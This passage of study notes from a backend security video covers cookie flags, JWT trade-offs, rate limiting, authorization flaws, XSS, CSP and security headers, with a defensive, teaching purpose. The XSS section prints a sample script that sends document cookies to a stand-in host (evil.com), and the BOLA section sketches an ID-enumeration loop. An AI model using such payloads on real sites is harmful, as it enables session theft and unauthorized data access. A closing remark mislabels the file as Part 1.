> For any production system storing authentication-related data (session IDs or JWTs) in cookies, **both `HttpOnly` and `Secure` must be set to `true`**. There is no acceptable reason to disable either one.

---

### [01:26:15] Secure Flag — HTTPS-Only Cookie Transmission

The `Secure` flag ensures the cookie is **only sent over HTTPS connections**. If TLS/SSL is not enabled for the connection, the browser will not transmit the cookie over HTTP.

This is critical because HTTP traffic can be intercepted on public networks (café Wi-Fi, public hotspots) by malicious actors — whether that's a rogue ISP, a compromised router with spyware, or someone running Wireshark on the same network. If your sensitive cookie (session identifier or JWT) travels over plain HTTP, anyone with access to that network hop can steal it.

HTTPS encrypts the traffic end-to-end. Even if someone observes the packets, they cannot decipher the contents. The `Secure` flag is therefore **non-negotiable** for any authentication cookie in production.

---

### [01:27:19] SameSite Flag — Controlling Cross-Origin Cookie Sending

The `SameSite` attribute controls whether a cookie is sent with **cross-origin requests**. It accepts three values:

| Value | Behavior |
|---|---|
| **Strict** | Cookie is **only sent for same-site requests** — i.e., requests originating from your own frontend/domain. If a user clicks a link to your site from an external site (e.g., an email, another website), the cookie is **not sent**. |
| **Lax** | Cookie is sent for **top-level navigations** (direct links) but **blocked for subresource requests** (images, iframes, AJAX/fetch calls triggered by third-party sites). This is the modern browser default. |
| **None** | Cookie is sent for **all requests**, cross-origin included. **Requires `Secure: true`**. |

#### Why this matters: CSRF (Cross-Site Request Forgery)

CSRF exploits the browser's automatic cookie-inclusion behavior. An attacker embeds an `` tag or `<iframe>` on their malicious site (`evil.com`) that points to a state-changing endpoint on your site (`yourbank.com/transfer`). When a logged-in user visits `evil.com`, their browser automatically includes the `yourbank.com` cookies with the request — the server sees a "valid" authenticated request and executes the action.

- **Strict** blocks this entirely (even legitimate top-level links from external sites won't send the cookie).
- **Lax** allows top-level navigation (user clicks a link → cookie sent) but blocks the ``/`<iframe>`/`fetch` vectors that CSRF relies on.
- **None** offers no CSRF protection.

> [!warning] Recommendation for session cookies
> Use **`SameSite=Strict`** for maximum security, or **`SameSite=Lax`** if you need external links to work seamlessly. **Never use `SameSite=None`** for authentication cookies.



**What this diagram shows:** How `SameSite` controls whether the browser includes authentication cookies on cross-origin requests initiated from a third-party site. `Strict` and `Lax` both block the ``-based CSRF vector; only `None` allows it (and requires `Secure`).

---

### [01:29:43] Transition to Stateless Authentication (JWT)

With cookie flags covered, we've addressed the key mechanisms for securing **stateful (session-based) authentication**. Now we move to **stateless authentication** using JWTs.

#### Stateful vs. Stateless recap

| Aspect | Stateful (Sessions) | Stateless (JWT) |
|---|---|---|
| **Server stores** | Full session data (user info, IP, user-agent, metadata) in Redis/DB | **Nothing** — session data lives in the token itself |
| **Client receives** | Opaque session ID (one column) | **Entire payload** (user ID, roles, custom claims, `iat`) |
| **Scaling** | Requires shared session store (Redis) across instances | **Easier horizontal scaling** — no DB lookup per request |
| **Revocation** | Trivial — delete row from store | **Hard** — token is valid until expiry unless blocklisted |

---

### [01:30:02] JWT Structure — Three Parts

A JWT consists of three Base64URL-encoded parts separated by dots:

```
xxxxx.yyyyy.zzzzz
```

| Part | Name | Color (jwt.io) | Purpose |
|---|---|---|---|
| 1 | **Header** | Green | Algorithm (`alg`: HS256, RS256, etc.), token type (`typ: JWT`) |
| 2 | **Payload** | White | **Claims** — data the server embeds (standard + custom) |
| 3 | **Signature** | Purple | Cryptographic proof the payload wasn't tampered with |

#### Header

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

Describes the signing algorithm. **Never trust the `alg` field from an unverified token** — always enforce your expected algorithm server-side (see "Algorithm confusion" attacks).

#### Payload (Claims)

Claims are key-value pairs. Standard registered claims:

| Claim | Name | Description |
|---|---|---|
| `sub` | Subject | User identifier (UUID, database ID) — **required** |
| `iat` | Issued At | Unix timestamp when token was created |
| `exp` | Expiration | Unix timestamp when token expires (optional but strongly recommended) |
| `nbf` | Not Before | Token not valid before this time |
| `iss` | Issuer | Who issued the token |
| `aud` | Audience | Who the token is for |

**Custom claims** — any application-specific data:

```json
{
  "sub": "usr_abc123",
  "iat": 1700000000,
  "name": "John Doe",
  "admin": true
}
```

> [!danger] Payload is **not encrypted** — only Base64URL-encoded
> Anyone can decode the payload (try it at [jwt.io](https://jwt.io)). **Never put sensitive data** (passwords, PII, secrets) in the payload. Only include data that is harmless if exposed to the user or an attacker.

#### Signature

The signature is computed as:

```
signature = HMAC_SHA256(
    base64url(header) + "." + base64url(payload),
    secret_key
)
```

For RS256 (asymmetric), the server signs with a **private key** and clients verify with the **public key**.

The secret key must be:
- **Cryptographically random** (256+ bits for HS256)
- Stored **only in environment variables** — never in source code
- Rotated periodically

If the payload is modified (even a single character), the signature verification fails because the attacker doesn't have the secret key.



**What this diagram shows:** The JWT lifecycle — server encodes header and payload, signs them with a secret key to produce the signature, and joins all three parts. On verification, the server reconstructs the signing input from the received header+payload, recomputes the signature using the same secret, and compares it to the received signature. A match proves the payload was not tampered with.

---

### [01:34:35] Stateless Authentication Flow



**What this diagram shows:** The stateless JWT flow. After login, the server issues a signed JWT containing the user's identity and claims. The client stores it and sends it in the `Authorization: Bearer` header on every request. The server verifies the signature locally — no database lookup needed — and trusts the claims if valid.

---

### [01:37:11] JWT Advantages & Trade-offs

**Advantages:**
- **No server-side session store** — eliminates Redis/DB lookup per request
- **Easier horizontal scaling** — any server instance can verify the token independently
- **Self-contained** — carries user identity, roles, permissions in the payload

**Trade-offs (the "less favorable properties"):**

---

### [01:37:23] Problem 1: Revocation Is Hard

With stateful sessions, logging out a user everywhere is trivial: `DELETE FROM sessions WHERE user_id = ?`. The next request finds no session row → instant logout.

With JWTs: **the token lives on the client**. You cannot force the client to delete it. If a user's account is compromised and they ask support to "revoke all sessions," **you cannot do it natively** — the JWT remains valid until its `exp` timestamp.

#### Workarounds (community patterns)

| Workaround | How it works | Limitation |
|---|---|---|
| **Blocklist (denylist)** | Store revoked token IDs (or `jti` claim) in Redis/DB with TTL matching token expiry. On each request, check blocklist before accepting. | Reintroduces **state** — defeats the "stateless" benefit. Must check DB/Redis on every request. |
| **Short expiry + Refresh tokens** | Access token: 5–15 min. Refresh token: 1–7 days (stored server-side). When access token expires, client sends refresh token → server issues new pair. | More complex. Refresh token **must be stored server-side** (defeats statelessness). If attacker steals refresh token, they can mint new access tokens until it expires. |

#### Refresh token flow (detail)

1. Login → server issues **access token** (short TTL, e.g., 5 min) + **refresh token** (long TTL, e.g., 7 days)
2. Client stores both (refresh token in secure HttpOnly cookie preferred)
3. On each API call: client sends access token
4. When access token expires → server returns `401`
5. Client automatically sends refresh token to `/refresh` endpoint
6. Server validates refresh token (checks expiry, checks blocklist) → issues **new access + new refresh token** (rotate refresh token)
7. Cycle repeats

> [!note] Refresh token storage
> The video emphasizes: **store refresh tokens server-side** (Redis/DB) so they can be revoked. This effectively makes the system **stateful for refresh tokens**, which is the pragmatic approach.

---

### [01:42:08] Problem 2: Payload Is Visible (Base64URL ≠ Encryption)

The payload is **Base64URL-encoded**, not encrypted. Anyone can decode it:

```bash
# Payload part (middle segment)
eyJzdWIiOiJ1c3JfYWJjIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWUsImlhdCI6MTcwMDAwMDAwMH0=
# → {"sub":"usr_abc","name":"John Doe","admin":true,"iat":1700000000}
```

An attacker **cannot modify it** without the secret key (signature would fail), but they **can read it**.

> [!warning] Never put secrets in JWT payload
> - No passwords, API keys, credit cards, SSNs
> - No internal system details that aid reconnaissance
> - Only include data that is **harmless if public** (user ID, role flags, feature flags)

#### Tampering demonstration

If you decode the payload, change `admin: true` → `admin: false`, re-encode, and try to construct a new JWT — **signature verification fails** because the signature covers the exact header+payload bytes. The server rejects it.

---

### [01:43:48] Problem 3: Where to Store the JWT on the Client?

| Storage | XSS Risk | CSRF Risk | Notes |
|---|---|---|---|
| **localStorage** | **High** — any XSS steals it via `localStorage.getItem()` | None (not sent automatically) | Most common, but **not recommended** |
| **HttpOnly Cookie** | **Low** — JavaScript cannot read it | **Medium** — sent automatically; needs `SameSite=Strict/Lax` | **Recommended** |
| **In-memory (JS variable)** | Medium — XSS can exfiltrate via network interception | None | Lost on tab close/refresh |

#### The author's strong recommendation

> **Unless you have specific horizontal-scaling requirements (multiple servers needing to authenticate the same user without shared Redis), always prefer stateful sessions with HttpOnly cookies.**

Even with scaling needs, **distributed session stores (Redis Cluster, DynamoDB, etc.)** solve this cleanly. The JWT trade-offs (revocation difficulty, payload visibility, storage complexity) are "not worth it" for most SaaS projects.

**If you must use JWTs:**
- Short expiry (minutes to hours — **never days**)
- Refresh tokens with **server-side storage + rotation**
- **HttpOnly cookies only** — never `localStorage`
- Accept that workarounds "feel like hacks" compared to sessions

---

### [01:46:28] Rate Limiting — Mandatory for Auth Endpoints

Without rate limiting, an attacker can:
1. **Brute-force credentials** — millions of username/password combos per minute
2. **DoS your server** — flood auth endpoint until it crashes

Both are catastrophic.

#### Layered rate limiting strategy

| Layer | Scope | Example config | Stops |
|---|---|---|---|
| **1. Per-IP** | Single IP address | 10 attempts/minute | Automated scripts from one IP |
| **2. Per-account** | Target account | 5 failures/15 min → lock 24h | Credential stuffing on known accounts |
| **3. Global** | Entire system | 100 failed logins/minute system-wide | Distributed botnets rotating IPs + password spraying |

##### Why multiple layers?

- **Per-IP alone fails** when: corporate NAT (many users share one IP), attackers use botnets/proxies/VPNs with rotating IPs
- **Per-account alone fails** when: attacker tries **one common password** (`123456`) across **thousands of accounts** (password spraying) — each account sees only 1 failure
- **Global** catches the spraying attack: even across many IPs and accounts, total failed attempts exceed threshold → alert + block



**What this diagram shows:** The three-layer rate limiting funnel. Each request is checked against per-IP, per-account, and global counters in sequence. Only if all pass does the login attempt proceed. Failed attempts increment all relevant counters; successful logins reset the per-account counter.

---

### [01:51:58] Authorization — Core Concepts

> **Authentication** = *Who are you?* (Identity → `user_id`)
> **Authorization** = *What can you do?* (Permissions → resources/actions)

The video references a separate "Authentication and Authorization" deep-dive. Here we focus on **security issues in authorization implementation**.

#### The dangerous confusion

After the routing layer authenticates the user and checks coarse permissions (e.g., "user has `read:books`"), developers often develop a **false sense of security**: *"The user is authenticated and authorized — they can access anything now."*

**This is wrong.** Coarse-grained routing-layer checks do not replace **fine-grained, data-level authorization** at the repository/database layer.

---

### [01:53:26] Broken Object Level Authorization (BOLA / IDOR)

**Scenario:** `/books?id=5` — user passes book ID via query param.

```mermaid
sequenceDiagram
    participant U as 👤 User (Alice)
    participant R as 🛣 Routing Layer
    participant H as ⚙️ Handler
    participant S as 🔧 Service
    participant DB as 🗄 Repository / DB
    
    U->>R: GET /books?id=5
    R->>R: AuthN: valid session?
    R->>R: AuthZ: has read:books?
    R->>H: Forward request
    H->>S: getBook(5)
    S->>DB: SELECT * FROM books WHERE id = 5
    DB-->>S: Returns book #5 (owned by Bob!)
    S-->>H-->>R-->>U: 200 OK + Bob's book data
```

**The bug:** The routing layer checked *entity-level* permission (`read:books`), but the repository query **did not filter by ownership**. Alice (user A) accessed Bob's (user B) book.

This is **BOLA** (Broken Object Level Authorization), also called **IDOR** (Insecure Direct Object Reference).

#### Exploitation at scale

An attacker scripts: `for id in 1..10000: GET /invoices?id={id}`. If the system lacks object-level checks, they download **all invoices, financial data, PII** — not just their own.

#### Fix: Push authorization to the point of data access

```sql
-- ❌ Vulnerable
SELECT * FROM books WHERE id = 5;

-- ✅ Secure
SELECT * FROM books WHERE id = 5 AND user_id = $current_user_id;
```

The query returns **zero rows** if the book belongs to another user → return `404 Not Found` (not `403 Forbidden` — see next section).

> [!tip] Apply to ALL query types
> This pattern applies to **SELECT, UPDATE, DELETE, INSERT** — any database operation touching user-scoped data.

---

### [02:02:47] Information Leakage via 403 vs 404

**Anti-pattern:** Fetch the resource first, *then* check ownership:

```python
invoice = db.query("SELECT * FROM invoices WHERE id = ?", invoice_id)
if invoice.user_id != current_user_id:
    raise Forbidden(403)  # Leaks: "Invoice #7 exists but isn't yours"
```

**Problem:** `403 Forbidden` confirms the resource **exists**. Attacker enumerates: `GET /invoices/1` → 404, `GET /invoices/2` → 403 → "Invoice #2 exists!" → plan social engineering / targeted attack.

**Fix:** Combine existence + ownership in **one query**:

```python
invoice = db.query(
    "SELECT * FROM invoices WHERE id = ? AND user_id = ?",
    invoice_id, current_user_id
)
if not invoice:
    raise NotFound(404)  # Indistinguishable from "doesn't exist"
```

Attacker cannot distinguish "resource doesn't exist" from "resource exists but belongs to someone else" — **enumeration blocked at root**.

---

### [02:06:41] Broken Function Level Authorization (BFLA)

**Scenario:** Admin endpoint `/admin/invoices` returns **all invoices** (no `user_id` filter — admin needs global view).

**Vulnerability:** The endpoint exists at a guessable URL. Only "security" is obscurity — the URL isn't linked in the regular UI. A regular user who discovers the URL (via traffic sniffing, source code, guessing) can call it and see **all system invoices**.

**Root cause:** Security through obscurity — **hiding the URL is not access control**.

#### Fix: Role-based middleware at routing layer



**Separate middleware** for:
1. **Authentication** — valid session/JWT?
2. **Permission** — `read:invoices`?
3. **Role** — `role == admin`? (for sensitive functions)

---

### [02:11:24] Indirect Object References & Predictable IDs

Using **sequential integer IDs** (`/invoices/101`, `/invoices/102`) in URLs enables **enumeration attacks**. Attackers guess all IDs.

**Prevention:** Use **UUIDs (ULIDs)** as primary keys / public identifiers:

```
Sequential:  101, 102, 103, 104...  (trivial to guess)
UUID:        550e8400-e29b-41d4-a716-446655440000  (unguessable)
```

Trade-off: UUIDs have **performance costs** (larger indexes, less cache-friendly, no sequential locality). Evaluate for your workload.

---

### [02:12:50] Authorization Attack Taxonomy: Horizontal vs. Vertical

| Dimension | Horizontal | Vertical |
|---|---|---|
| **Direction** | Across **users** (peer-to-peer) | Up **privilege levels** (user → admin) |
| **Scope widens** | System-wide (other users' data) | Functionality (admin functions) |
| **Examples** | BOLA/IDOR, accessing another user's invoice | BFLA, accessing `/admin/*` endpoints |
| **Mental model** | "I'm user A, I want user B's data" | "I'm a member, I want admin powers" |

**Defense framework (3 pillars):**

1. **Centralize authorization logic** — single authorization layer all requests pass through. No scattered checks.
2. **Default deny** — if not explicitly allowed, deny. New resources/endpoints are protected by default.
3. **Test authorization explicitly** — automated tests for:
   - User A cannot access User B's resources
   - Member cannot access admin functions
   - Unauthenticated cannot access authenticated resources
   - Run in CI/CD on every change
4. **Audit logs** — log every sensitive endpoint access + every authorization failure (flag as breach events)

---

### [02:18:37] Cross-Site Scripting (XSS)

**XSS** = attacker injects JavaScript that executes in a **victim's browser** in the context of your site.

#### Why it's destructive

JavaScript running in your origin can:
- Read **all page content** (including sensitive data)
- Access **cookies** (unless `HttpOnly`) and **localStorage**
- Make **API requests** as the logged-in user (credentials included automatically)
- **Redirect** to phishing pages
- **Modify DOM** to fake login forms, payment forms, etc.

---

### [02:20:41] XSS Types & Root Cause

| Type | Vector | Storage |
|---|---|---|
| **Stored XSS** | Malicious input saved in DB (comments, profiles) → rendered to other users | Server (persistent) |
| **Reflected XSS** | Malicious payload in URL/query param → reflected in response immediately | URL (non-persistent) |
| **DOM-based XSS** | Client-side JS reads `location.hash` / `search` → writes to DOM unsafely | Client only |

#### Root cause (unified model)

> **User-controlled data is treated as *code* instead of *data* when crossing a language boundary.**

Same as SQL injection! Here the boundary is: **User input (data) → HTML/JS context (code)**.



**What this diagram shows:** The XSS data flow. User input crosses from plain text → markdown → HTML → DOM injection. If sanitization fails at any point, the browser's HTML parser executes the injected `<script>` as code.

#### Stored XSS example (comment system)

1. User writes comment in Markdown: `# Hello\n- Item 1`
2. Server converts Markdown → HTML via Remark/Rehype → `<h1>Hello</h1><ul><li>Item 1</li></ul>`
3. Server stores HTML in DB
4. Other users view page → server sends HTML → client injects via `dangerouslySetInnerHTML` (React) / `innerHTML`
5. **Attacker** finds a sanitization bypass → injects `<script>fetch('evil.com?c=' + document.cookie)</script>`
6. **Every viewer** executes the script → cookies stolen

> [!note] React's `dangerouslySetInnerHTML`
> React intentionally names this prop dangerously — it's your responsibility to sanitize **before** passing HTML to it.

---

### [02:27:45] XSS Prevention

#### 1. Sanitization at validation layer (server-side)

**Before storing** user-provided markup/HTML:
- Strip `<script>`, `onerror=`, `onclick=`, `javascript:` URLs
- Use a battle-tested library (DOMPurify, sanitize-html) — **don't write your own regex**
- Allowlist safe tags/attributes only

#### 2. Content Security Policy (CSP) — Defense in Depth

CSP is an **HTTP response header** that tells the browser what resources it may load/execute:

```http
Content-Security-Policy:
  default-src 'self';
  script-src 'self' https://cdn.example.com;
  style-src 'self' 'unsafe-inline';
  img-src 'self' data: https:;
  frame-ancestors 'none';
```

Key directives:
| Directive | Purpose |
|---|---|
| `script-src` | Allowed script sources (`'self'`, specific domains, nonces, hashes) |
| `'unsafe-inline'` | **Avoid** — allows inline `<script>` tags (defeats XSS protection) |
| `frame-ancestors` | Controls framing (replaces `X-Frame-Options`) |
| `object-src` | Blocks `<object>`, `<embed>`, `<applet>` (legacy attack vectors) |

**CSP is not a prevention** — it's a **last line of defense**. If sanitization fails, CSP blocks the inline script execution. Fix the root cause (sanitization) first.

---

### [02:31:12] CSRF — Brief Mention

**CSRF** (Cross-Site Request Forgery) exploits automatic cookie sending on cross-origin requests.

**Why it's less critical today:**
1. **`SameSite=Lax` is now browser default** — blocks the main CSRF vectors (``, `<iframe>`, form POST)
2. **CORS** — browsers block cross-origin reads (though writes still happen)
3. Modern frameworks include CSRF tokens by default

**Legacy defense (still valid):**
- `SameSite=Strict` or `Lax` on auth cookies
- CSRF tokens (synchronizer pattern) for state-changing endpoints
- CORS configuration restricting origins

> [!note] The video treats CSRF as largely solved by modern defaults. Focus energy on XSS, auth, and authorization instead.

---

### [02:35:05] Security Misconfigurations

#### 1. Secrets in Source Control

**Never commit secrets** (API keys, DB passwords, JWT secrets, encryption keys) to Git.

If accidentally committed:
- **Rotate immediately** — delete old secret, generate new one
- Deleting from latest commit **is not enough** — it remains in Git history
- Use tools like `git-secrets`, `truffleHog`, GitHub secret scanning

#### 2. Debug Mode in Production

Debug logging (`log_level=debug`) emits:
- Full stack traces (code structure, function names, file paths)
- Raw SQL queries (schema, table names, values)
- DB connection configs
- Sometimes user PII

**Production must run at `info` or `warn` level.** Debug logs are for local/staging only.

#### 3. Missing Security Headers

Modern frameworks provide one-line middleware to set industry-standard headers:

| Header | Purpose |
|---|---|
| `X-Frame-Options: DENY` / `frame-ancestors` | Prevent clickjacking via iframe embedding |
| `X-Content-Type-Options: nosniff` | Prevent MIME-type sniffing |
| `Referrer-Policy: strict-origin-when-cross-origin` | Control referrer leakage |
| `Permissions-Policy` | Restrict browser features (camera, microphone, etc.) |
| `Content-Security-Policy` | As detailed above |
| `Strict-Transport-Security` | Enforce HTTPS (HSTS) |

> Use framework middleware (Helmet for Express, SecureHeaders for Rails, etc.) — **don't hand-roll**.

---

### [02:41:31] Unifying Mental Model: Boundaries & Trust Zones

> **Every vulnerability is data crossing a boundary where assumptions break.**

| Vulnerability | Boundary Crossed | Assumption Broken |
|---|---|---|
| SQL Injection | User input → SQL query language | "Input is safe data" |
| Command Injection | User input → Shell command | "Filename is just a string" |
| XSS | User input → HTML/JS context | "Markdown renders safely" |
| BOLA | User request → Database row | "User owns what they request" |
| BFLA | User request → Admin function | "Hidden URL = secure" |
| Path Traversal | User input → Filesystem path | "Filename stays in upload dir" |

#### Three questions to ask at every boundary

1. **Where is data crossing a boundary?**
2. **What assumptions am I making about this data?**
3. **What if those assumptions are wrong?**

Ask these **every time** you write code handling external input.

---

### [02:42:59] Defense in Depth — Layered Security

No single layer is perfect. Stack them:

| Layer | Mechanism | Example |
|---|---|---|
| **1. Input Validation** | Strict schema, allowlists, reject unexpected | Zod, Pydantic, Joi at route entry |
| **2. Parameterized Operations** | Separate code from data | Prepared statements, `exec(cmd, args[])`, sanitized HTML |
| **3. Authorization at Point of Access** | Check ownership in the DB query | `WHERE id=? AND user_id=?` |
| **4. Security Headers & Policies** | Browser-enforced limits | CSP, `SameSite`, `X-Frame-Options`, CORS |
| **5. Monitoring & Logging** | Detect & alert on anomalies | Failed authZ → audit log + alert; rate limit breach → page on-call |



**What this diagram shows:** Defense in depth as a series of concentric layers. An attacker must bypass **all layers simultaneously** to cause damage. Each layer is imperfect, but together they make successful exploitation exponentially harder.

---

### [02:45:42] Security Is a Mindset, Not a Checklist

> Security is **not** about learning a few techniques and implementing them. It's about **being paranoid about your systems** — bringing a suspicious mindset to every line of code.

- Think in **boundaries** and **assumptions**
- Assume **your code will be attacked**
- Build **layers**, not walls
- **Automate** verification (tests, CI/CD, scanning)

---

### [02:46:08] Recommended Learning Resources

#### 1. PortSwigger Web Security Academy
- **Free**, comprehensive, hands-on labs
- Covers: SQLi, XSS, CSRF, clickjacking, SSRF, OS command injection, auth/OAuth, JWT attacks, and more
- Created by the makers of Burp Suite
- URL: `portswigger.net/web-security`

#### 2. OWASP (Open Web Application Security Project)
- **OWASP Top 10** — industry-standard list of most critical web app risks (updated every few years)
  - Current top: Broken Access Control, Cryptographic Failures, Injection, Insecure Design, Security Misconfiguration, etc.
- **OWASP Cheat Sheet Series** — concise, actionable guides per topic
  - Authentication, Session Management, Input Validation, CSP, etc.
- URL: `owasp.org` / `cheatsheetseries.owasp.org`

> [!quote] Srini on OWASP Cheat Sheets
> "I have personally gone through all of these multiple times over the years... covering different domains by keeping a single goal in mind which is security but coming at security from different domains that opens up a completely new perspective in your mind."

---

## Key Takeaways

| Area | Principle |
|---|---|
| **Cookie Security** | `HttpOnly: true`, `Secure: true`, `SameSite: Strict` (or `Lax`) — **all three, always** |
| **JWT vs Sessions** | Default to **stateful sessions + HttpOnly cookies**. Use JWTs only when horizontal scaling demands it, with short TTL + refresh tokens + server-side refresh storage |
| **Revocation** | Sessions = instant. JWTs = requires blocklist or short TTL + rotation (effectively stateful) |
| **Authorization** | Check **at the point of data access** (repository/DB query), not just routing layer. Return `404` not `403` to avoid enumeration |
| **BOLA/IDOR** | Filter every query by `user_id` / ownership. Use UUIDs for public IDs |
| **BFLA** | Role middleware at routing layer for sensitive functions (`require: admin`) |
| **Rate Limiting** | Three layers: per-IP, per-account, global. All mandatory for auth endpoints |
| **XSS** | Sanitize **before storage** (DOMPurify). CSP as last line of defense. Never `dangerouslySetInnerHTML` unsanitized input |
| **Secrets** | Environment variables only. Rotate immediately if leaked (history included) |
| **Debug Logs** | `info`/`warn` in production. Never `debug` |
| **Security Headers** | Use framework middleware (Helmet, etc.) — one line enables all |
| **Mental Model** | **Data crossing boundaries** → ask: "What assumptions? What if wrong?" |

---

## Related Notes

- [[_00 - Backend from First Principles - Index]] — Course MOC
- [[19 - Graceful Shutdown]] — Previous chapter
- [[21 - Backend Scaling and Performance Engineering (Part 1)]] — Next chapter

---

> [!note] Source fidelity
> This document is a detailed study guide derived from **Part 2 (timestamps 01:26:15 – 02:49:59)** of Sriniously's "Backend Security: Everything You Need to Know" (video ID: `xB1C1xZZW4k`). All technical content, examples, timestamps, and recommendations reflect the video transcript. Ambiguous transcript segments are marked with ⇢ *inferred*. Mermaid diagrams and structural formatting have been added for study clarity.
>
> Part 1 (this file, lines 1–570) covers: security mindset, injection mental model, SQL injection, parameterized queries, command injection, password hashing/salting, session creation, `HttpOnly`/`Secure` cookie flags.


